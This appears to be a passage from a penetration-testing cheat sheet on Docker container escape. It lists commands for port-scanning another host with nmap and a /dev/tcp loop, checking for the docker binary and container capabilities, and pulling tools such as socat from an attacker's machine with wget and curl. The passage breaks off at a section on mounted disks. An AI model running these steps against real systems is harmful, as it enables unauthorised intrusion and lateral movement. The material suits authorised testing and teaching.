 ```bash
# Port scan another host
nmap 172.17.0.1
for i in {1..65535}; do (echo > /dev/tcp/172.17.0.1/$i) >/dev/null 2>&1 && echo $i is open; done

# SSH
ssh <user>@<another_host>

# Check if docker command is available.
# If not, find the command in the container.
docker -h
find / -name "docker" 2>/dev/null

# Container capabilities
capsh --print
```

### Access Another Host

If we found another host but cannot access it by restrictions, we need to port forward.  
Please see [details](port-forwarding-with-chisel.md) for port fowarding.

### Import Required Binary from Local Machine

The container generally has few command that we want to use to exploit, so we need to import manually the command binaries if we need.  
Below are examples to transfer arbitrary binary into the docker container.

```bash
wget http://<local-ip>:8000/socat

curl <local-ip>:8000/scp -o socat
```

<br />

## SSH Login

We might be able to login SSH on the target host if we know the credentials.

```bash
ssh user@127.0.0.1
```

<br />

## Mounting

Check disks or mounted folders and we might be able to see the directories of the host system.  
See [Linux Privilege Escalation]([/exploit/linux/privilege-escalation/#disks-(drives)](https://www.notion.so/Exploit-Notes-898cefc3a26942018237f6ceb6694351?pvs=21)) for details.

### 1. List Disks/Mounted Folders
